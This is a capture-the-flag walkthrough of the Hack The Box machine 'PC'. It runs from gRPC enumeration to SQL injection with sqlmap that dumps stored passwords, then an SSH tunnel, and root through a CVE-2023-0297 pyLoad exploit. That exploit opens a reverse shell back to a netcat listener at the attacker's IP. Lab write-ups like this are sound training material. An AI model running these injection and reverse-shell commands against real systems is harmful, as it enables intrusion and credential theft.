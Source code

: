 ```yaml
---
layout: default
title: PC
description: HTB - PC
---
```


## Enumeration

Nmap:
```
Nmap scan report for 10.10.11.214
Host is up (0.055s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```
Ok, 2 ports open, one unknown. Let's search it up and find out what's what.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_01.png)

So gRPC. Good, we now have something we can look into.

Another search for gRPC pentesting, brings out “grpcui”. (https://github.com/fullstorydev/grpcui)

Let's clone and use it.
```
# /root/go/bin/grpcui -plaintext 10.10.11.214:50051
gRPC Web UI available at http://127.0.0.1:34621/
```
![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_02.png)

We'll now attempt to register a user, using the “RegisterUser” function, and check the output.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_03.png)

Great! Our account appears to have been created. Let's try logging in.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_04.png)

We now have a token, which we can input in this field, and use the “getInfo” function:

![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_05.png)
![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_06.png)

Response for the “getInfo” function:

![getinfo](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_07.png)

We didn't get much info, so let's try seeing the request in burp.

We'll start burp in proxy mode, capture the request, and send it to repeater to check if we can alter it in some way.

![burp](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_08.png)

I tried inputing different values (1, 0, etc) no output was given, I tried a php payload out of desperation, still didn't work.

I then figured out that the “id” parameter must be stored in a database. So I saved the request and threw it in sqlmap.

If you set the value of “id” to “\*” ("id":"\*"), sqlmap will know where to look.
```
sqlmap -r pcsql --dump-all --batch
```
BINGO!
```
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| [REDACTED] | sau      |
+------------------------+----------+

```
## Exploitation

And now let's ssh into the machine with the username “sau”.
```
ssh sau@10.10.11.214                                     
sau@10.10.11.214's password: 
Last login: Sat Sep 23 19:02:07 2023 from 10.10.11.214
bash-5.0$ 
bash-5.0$ ls
user.txt
bash-5.0$ cat user.txt
0c31efdfbc024f[REDACTED]
bash-5.0$ 
```

Let's snoop around in the usual places. /home, /opt, and run linpeas for good measure.
```
bash-5.0$ cd /opt
bash-5.0$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jan 11  2023 .
drwxr-xr-x 21 root root 4096 Apr 27 15:23 ..
drwxr-xr-x  3 root root 4096 Sep 23 19:14 app
bash-5.0$ cd app
bash-5.0$ ls
__pycache__  app.py      app_pb2_grpc.py  sqlite.db
app.proto    app_pb2.py  middle.py
bash-5.0$ cd /home
bash-5.0$ ls
sau
bash-5.0$ cd sau
bash-5.0$ ls
user.txt
```

Linpeas found a local connection, like we had on “Internal” from THM.

Let's create an SSH tunnel like we did there, and try to access it.
```
ssh -N -L 5555:127.0.0.1:8000 sau@10.10.11.214
sau@10.10.11.214's password: 
```
And we are met by a pyLoad login page:

![pyload](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_09.png)

## Privilege Escalation

Previous credentials didn't work, so I started googling for possible exploits.

As luck would have it, I found a pre-auth RCE exploit -> CVE-2023-0297 

Let's download and launch it.

First, I'll set up a listener, and then run the exploit.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002

python3 preauth.py -t 127.0.0.1:5555 -I 10.10.14.232 -P 9002 
[SUCCESS] Running reverse shell. Check your listener!

Connection received on 10.10.11.214 51996
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# 
root@pc:~/.pyload/data# id  
id
uid=0(root) gid=0(root) groups=0(root)

```

We have root! We can now read the “/root/root.txt” file, and submit our flags.

Good hunting o7

[Try it out yourself!](https://app.hackthebox.com/machines/PC) 

[back](./)
